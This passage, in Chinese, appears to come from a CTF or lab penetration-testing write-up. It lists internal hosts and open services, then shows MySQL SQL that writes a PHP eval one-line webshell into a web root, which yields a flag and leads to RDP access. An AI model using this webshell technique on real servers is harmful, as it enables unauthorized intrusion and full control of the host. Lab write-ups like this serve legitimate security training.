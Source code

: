 :::success  
172.22.13.14 `本机地址`  
172.22.13.57 `开放80,22,2049 NFS`  
172.22.13.28 8000,3306,80 WIN-HAUWOLAO，存在 mysql 弱口令  
172.22.13.6 `WIN-DC DC`  
:::

### 代理渗透 mysql

做一个`windows` sock5 代理，利用`navicat`链接上去后  
写`secure_file_priv`日志木马

```plain
show variables like "secure_file_priv";
show variables like "%general%"
## 写一个一句话木马
select "<?php eval($_POST[1]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

写木马后，链接地址`[http://172.22.13.28/1.php](http://172.22.13.28/1.php)`，成功获取`flag3`

[![](assets/1709193375-18131dc015778280d31f0bcd13999fa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205206-0347efcc-d56f-1.png)

这里可以创建一个用户连接`rdp`

